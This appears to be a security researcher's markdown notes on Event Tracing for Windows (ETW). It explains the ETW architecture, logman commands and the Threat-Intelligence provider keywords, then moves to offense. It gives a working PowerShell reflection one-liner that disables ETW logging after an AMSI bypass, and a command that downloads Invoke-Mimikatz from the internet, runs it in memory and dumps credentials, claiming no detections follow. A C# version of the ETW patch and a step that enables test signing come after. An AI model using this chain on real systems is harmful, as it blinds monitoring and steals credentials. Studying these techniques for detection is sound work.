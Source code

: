 # ETW - Event Tracing for Windows (Kernel mode)

> **TL;DR** ETW basically is  a kernel level debug logging mechanism in Windows - it allows to gather advanced telemetry about functions being called. Windows Even Logs contain a subset of ETW events. Typically used by application developers to debug programs, but has found its way as a telemetry source for EDR's. 

Event Tracing for Windows (ETW) is a high speed tracing facility built into Windows. Using a buffering and logging mechanism implemented in the operating system kernel, ETW provides an infrastructure for events raised by both user mode (apps) and kernel mode components (drivers). ETW can be used for system and app diagnosis, troubleshooting, and performance monitoring.

![Screenshot](./images/etwarch.jpg)
https://learn.microsoft.com/en-us/windows-hardware/test/weg/instrumenting-your-code-with-etw

***Provider***
A provider is an instrumented component that generates events. A provider can be a user mode app, a kernel mode driver, or the Windows kernel itself. In addition to fixed event data (header), an event can carry user data.

An event is an event-based representation of data. The data can be used for in-depth analysis. An event can also be used to produce counters. Counters provide a sample-based view of data. They typically contain a small set of data to show current state, for example I/O bytes per second and interrupts per second.

A provider must register with ETW and send events by calling the ETW Logging APIs. Providers register a callback function for enable and disable notifications so that tracing can be enabled and disabled dynamically.

***Session***
The ETW session infrastructure works as an intermediate broker that relays the events from one or more providers to the consumer. A session is a kernel object that collects events into kernel buffer and sends them to a specified file or real-time consumer process. Multiple providers can be mapped to a single session, which allows users to collect data from multiple sources.

***Controller***
A controller starts, stops, or updates a trace session. A session is a unit for tracing. Providers are mapped (or enabled) to a specific session. A controller enables and disables providers so that they can start sending events to ETW. Controller functionalities can be invoked with tools provided by Microsoft or you can write your own app.

Logman.exe is an in-box controller app. Windows Performance Recorder (WPR) in the Windows Performance Toolkit is the recommended controller process.

***Consumer***
A consumer is an app that reads a logged trace file (ETL file) or captures events in an active trace session in real time, and processes events. Event Viewer and Resource Monitor are in-box ETW consumer apps.

Windows Performance Analyzer (WPA) in the Windows Performance Toolkit is the recommended consumer process.


To see which ETW providers are running on the system
```code
logman query -ets
```

logman  query providers | select-string "defender"

Notice sysmon, Windows Defender...

```code
logman query providers Microsoft-Windows-Kernel-Process
```
|Provider|                                 GUID|
|----------------------------------|---------------------------------------------|
|Microsoft-Windows-Kernel-Process|         {22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716}|

```code
logman start mysession -p {22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716} -o mytest.etl -ets
logman start mysession -p Microsoft-Windows-Kernel-Process -o mytest.etl -ets
logman stop mysession -ets
tracerpt mytest.etl
```


https://github.com/Microsoft/perfview/releases


logman create trace MyETWSession -p "Microsoft-Windows-Kernel-Process" 0x8 -o "C:\temp\kernel-process.etl" -ets

.\filebeat.exe -e -c filebeat.yml -d "*"



-----

```powershell 
logman start Microsoft-Windows-Kernel-Memory -p Microsoft-Windows-Kernel-Memory 0xffffffffffffffff win:informational -ets
logman stop Microsoft-Windows-Kernel-Memory -ets 
```

tracerpt .\Microsoft-Windows-Kernel-Memory.etl -o Microsoft-Windows-Kernel-Memory.evtx -of evtx -lr

Microsoft-Windows-DotNETRuntime
Microsoft-Windows-Threat-Intelligence


Provider                                 GUID
-------------------------------------------------------------------------------
Microsoft-Windows-Threat-Intelligence    {F4E1897C-BB5D-5668-F1D8-040F4D8DD344}

-----

| Value              | Keyword                                                        | Description                                                                                           |
| ------------------ | -------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| 0x0000000000000001 | KERNEL_THREATINT_KEYWORD_ALLOCVM_LOCAL                         | Allocates virtual memory in the local process.                                                        |
| 0x0000000000000002 | KERNEL_THREATINT_KEYWORD_ALLOCVM_LOCAL_KERNEL_CALLER           | Allocates virtual memory in the local process, called from kernel mode.                               |
| 0x0000000000000004 | KERNEL_THREATINT_KEYWORD_ALLOCVM_REMOTE                        | Allocates virtual memory in a remote process.                                                         |
| 0x0000000000000008 | KERNEL_THREATINT_KEYWORD_ALLOCVM_REMOTE_KERNEL_CALLER          | Allocates virtual memory in a remote process, called from kernel mode.                                |
| 0x0000000000000010 | KERNEL_THREATINT_KEYWORD_PROTECTVM_LOCAL                       | Changes the protection on a region of virtual memory in the local process.                            |
| 0x0000000000000020 | KERNEL_THREATINT_KEYWORD_PROTECTVM_LOCAL_KERNEL_CALLER         | Changes the protection on a region of virtual memory in the local process, called from kernel mode.   |
| 0x0000000000000040 | KERNEL_THREATINT_KEYWORD_PROTECTVM_REMOTE                      | Changes the protection on a region of virtual memory in a remote process.                             |
| 0x0000000000000080 | KERNEL_THREATINT_KEYWORD_PROTECTVM_REMOTE_KERNEL_CALLER        | Changes the protection on a region of virtual memory in a remote process, called from kernel mode.    |
| 0x0000000000000100 | KERNEL_THREATINT_KEYWORD_MAPVIEW_LOCAL                         | Maps a view of a file mapping into the address space of the local process.                            |
| 0x0000000000000200 | KERNEL_THREATINT_KEYWORD_MAPVIEW_LOCAL_KERNEL_CALLER           | Maps a view of a file mapping into the address space of the local process, called from kernel mode.   |
| 0x0000000000000400 | KERNEL_THREATINT_KEYWORD_MAPVIEW_REMOTE                        | Maps a view of a file mapping into the address space of a remote process.                             |
| 0x0000000000000800 | KERNEL_THREATINT_KEYWORD_MAPVIEW_REMOTE_KERNEL_CALLER          | Maps a view of a file mapping into the address space of a remote process, called from kernel mode.    |
| 0x0000000000001000 | KERNEL_THREATINT_KEYWORD_QUEUEUSERAPC_REMOTE                   | Queues an asynchronous procedure call (APC) to a thread in a remote process.                          |
| 0x0000000000002000 | KERNEL_THREATINT_KEYWORD_QUEUEUSERAPC_REMOTE_KERNEL_CALLER     | Queues an asynchronous procedure call (APC) to a thread in a remote process, called from kernel mode. |
| 0x0000000000004000 | KERNEL_THREATINT_KEYWORD_SETTHREADCONTEXT_REMOTE               | Sets the context of a thread in a remote process.                                                     |
| 0x0000000000008000 | KERNEL_THREATINT_KEYWORD_SETTHREADCONTEXT_REMOTE_KERNEL_CALLER | Sets the context of a thread in a remote process, called from kernel mode.                            |
| 0x0000000000010000 | KERNEL_THREATINT_KEYWORD_READVM_LOCAL                          | Reads virtual memory in the local process.                                                            |
| 0x0000000000020000 | KERNEL_THREATINT_KEYWORD_READVM_REMOTE                         | Reads virtual memory in a remote process.                                                             |
| 0x0000000000040000 | KERNEL_THREATINT_KEYWORD_WRITEVM_LOCAL                         | Writes to virtual memory in the local process.                                                        |
| 0x0000000000080000 | KERNEL_THREATINT_KEYWORD_WRITEVM_REMOTE                        | Writes to virtual memory in a remote process.                                                         |
| 0x0000000000100000 | KERNEL_THREATINT_KEYWORD_SUSPEND_THREAD                        | Suspends a thread.                                                                                    |
| 0x0000000000200000 | KERNEL_THREATINT_KEYWORD_RESUME_THREAD                         | Resumes a suspended thread.                                                                           |
| 0x0000000000400000 | KERNEL_THREATINT_KEYWORD_SUSPEND_PROCESS                       | Suspends all threads in a process.                                                                    |
| 0x0000000000800000 | KERNEL_THREATINT_KEYWORD_RESUME_PROCESS                        | Resumes all threads in a suspended process.                                                           |
| 0x0000000001000000 | KERNEL_THREATINT_KEYWORD_FREEZE_PROCESS                        | Freezes a process, preventing it from executing.                                                      |
| 0x0000000002000000 | KERNEL_THREATINT_KEYWORD_THAW_PROCESS                          | Thaws a frozen process, allowing it to execute.                                                       |
| 0x0000000004000000 | KERNEL_THREATINT_KEYWORD_CONTEXT_PARSE                         | Parses the context of a process or thread.                                                            |
| 0x0000000008000000 | KERNEL_THREATINT_KEYWORD_EXECUTION_ADDRESS_VAD_PROBE           | Probes the virtual address descriptor (VAD) for an execution address.                                 |
| 0x0000000010000000 | KERNEL_THREATINT_KEYWORD_EXECUTION_ADDRESS_MMF_NAME_PROBE      | Probes the memory-mapped file (MMF) name for an execution address.                                    |
| 0x0000000020000000 | KERNEL_THREATINT_KEYWORD_READWRITEVM_NO_SIGNATURE_RESTRICTION  | Reads or writes virtual memory without signature restrictions.                                        |
| 0x0000000040000000 | KERNEL_THREATINT_KEYWORD_DRIVER_EVENTS                         | Logs events related to kernel-mode drivers.                                                           |
| 0x0000000080000000 | KERNEL_THREATINT_KEYWORD_DEVICE_EVENTS                         | Logs events related to device operations.                                                             |
| 0x8000000000000000 | Microsoft-Windows-Threat-Intelligence/Analytic                 | Logs analytic events for threat intelligence.                                                         |

| Value | Level             | Description |
| ----- | ----------------- | ----------- |
| 0x04  | win:Informational | Information |

| PID        | Image |
| ---------- | ----- |
| 0x00000000 |       |

https://github.com/Lsecqt-Sponsors/Haunt_Agent/blob/main/Payload_Type/haunt/haunt/agent_code/etw.ps1
https://github.com/MHaggis/PowerShell-Hunter

https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/

run after amsi bypass:

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

then run

```powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```

No detections, AMSI is disabled, ETW is disabled -> Check eventviewer -> no powershell logs.

## Understanding the Components:

* **`[Reflection.Assembly]::LoadWithPartialName('System.Core')`:**
    * Loads the `System.Core.dll` assembly, containing core .NET classes, including `System.Diagnostics.Eventing.EventProvider`.
* **`.GetType('System.Diagnostics.Eventing.EventProvider')`:**
    * Retrieves the `System.Diagnostics.Eventing.EventProvider` type, responsible for emitting ETW events.
* **`.GetField('m_enabled','NonPublic,Instance')`:**
    * Retrieves the `m_enabled` field of the `EventProvider` class, a non-public instance field that determines whether ETW events are enabled.
* **`.SetValue(...)`:**
    * Sets the value of the `m_enabled` field.
* **`[Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')`:**
    * Retrieves the `System.Management.Automation.Tracing.PSEtwLogProvider` type, a PowerShell-specific wrapper around the .NET ETW functionality.
* **`.GetField('etwProvider','NonPublic,Static').GetValue($null)`:**
    * Retrieves the `etwProvider` field of the `PSEtwLogProvider` class, a non-public static field holding a reference to the `EventProvider` instance used by PowerShell.
* **`,0`:**
    * Sets the `m_enabled` field to `0` (false), disabling ETW events for the PowerShell `EventProvider`.

## How It Works (ETW Bypass):

* PowerShell uses the .NET `EventProvider` class to generate ETW events.
* The `PSEtwLogProvider` class in PowerShell acts as a bridge, holding the specific `EventProvider` instance used for PowerShell logging.
* The `m_enabled` field within the `EventProvider` class controls whether events are actually emitted.
* By using reflection, the code directly accesses and modifies this internal `m_enabled` field, setting it to `0`.
* This prevents the PowerShell `EventProvider` from generating ETW events, effectively bypassing ETW logging for that PowerShell process.

![Screenshot](./images/etw_diag.jpg)

## Key Points:

* This method relies on internal .NET implementation details and might break if those details change in future .NET or PowerShell versions.
* It only affects the current PowerShell process.
* It is very effective at disabling the ETW logging from within powershell.
* This technique is commonly used by malicious actors.
* EDR solutions monitor for this type of activity.

CSHARP CODE (AI Generated) using the same ETW bypass (also works for .net binaries)

```CSharp
using System;
using System.Diagnostics.Eventing;
using System.Reflection;

public class EtwBypass
{
    public static void Main(string[] args)
    {
        try
        {
            // Get the EventProvider type
            Type eventProviderType = typeof(EventProvider);

            // Find the m_enabled field (non-public, instance)
            FieldInfo mEnabledField = eventProviderType.GetField("m_enabled", BindingFlags.NonPublic | BindingFlags.Instance);

            // Get the EventProvider instance used by the application (you'll need to adapt this part)
            // This is the tricky part, as you need to find the specific instance you want to patch.
            // In a real application, you would need to find the event provider instance that is used.
            // This example creates a new instance just for demonstration.
            EventProvider dummyProvider = new EventProvider(Guid.NewGuid());

            // Set the m_enabled field to 0 (false)
            if (mEnabledField != null)
            {
                mEnabledField.SetValue(dummyProvider, 0);
                Console.WriteLine("ETW bypassed.");
            }
            else
            {
                Console.WriteLine("m_enabled field not found.");
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine($"Error: {ex.Message}");
        }
    }
}
```

## ETW Patching in .NET Binaries vs. PowerShell

**PowerShell Patch:**

* Uses reflection to modify the `PSEtwLogProvider` within the PowerShell process.
* Specifically targets how PowerShell logs events.
* Limited to the PowerShell process.
* Executed as a PowerShell command.
* Targets the PowerShell ETW logging mechanism.

**.NET Binary Patch (C# Example):**

* Compiles into a standalone .NET executable.
* Uses reflection to directly modify the `EventProvider` class within the running .NET binary.
* Can patch ETW logging for any .NET application that uses the standard .NET `EventProvider` class, if the correct `EventProvider` instance can be located.
* Can affect any .NET application.
* Executed as a compiled executable.
* Targets the `EventProvider` class, allowing it to target any .NET application using that class.

**Key Differences and Implications:**

* **Scope:**
    * PowerShell patch: Limited to the PowerShell process.
    * .NET binary patch: Can affect any .NET application, if the correct event provider can be located.
* **Execution Context:**
    * PowerShell patch: Executed as a PowerShell command.
    * .NET binary patch: Executed as a compiled executable.
* **Targeting:**
    * Powershell patch: Targets the powershell ETW logging.
    * .net binary patch: Targets the event provider class, so it can target any .net application that uses that class.

**In summary:** The C# code provides a more general-purpose ETW patching mechanism that can be used independently of PowerShell, while the PowerShell one-liner is specific to the PowerShell environment.

---

# TelemetrySourceror

Make sure secure boot is disabled in VM

```powershell
bcdedit.exe -set TESTSIGNING ON
```

Reboot the machine

Use PSEXEC to run as system and run Telemetry Sourceror

---

ETW USER LAND vs KERNEL MODE